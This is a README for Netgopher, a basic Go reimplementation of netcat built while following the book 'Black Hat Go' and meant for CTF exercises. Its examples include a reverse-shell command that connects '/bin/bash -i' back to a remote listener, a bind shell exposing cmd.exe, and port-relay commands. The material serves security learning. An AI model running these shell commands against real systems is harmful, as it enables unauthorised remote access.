 # Netgopher

![Example gif of relay usage](assets/relay.gif)

This is a basic Go implementation of (some functions of) Netcat and has been produced whilst working through the very-excellent NoStarch Press book [Black Hat Go](https://nostarch.com/blackhatgo) (which wins best cover too IMO). 

This implementation of Netcat is basic and has been built up piecemeal whilst following various book sections. Notably, this tool is TCP only, with limited features (no hexdump etc.). That said, Netgopher does most things I want Netcat to do during Capture The Flag exercises, including simple out of the box port realying.

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

# Installation

You can **but probably shouldn't**  get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well this will only install ng in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. 

I wrote this version to use during CTFs meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/connection pair:

![Listener & connect example image](assets/basic.gif)

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

Hope you find this interesting, useful, or something. Issues, pulls, emails, tweets all welcome!
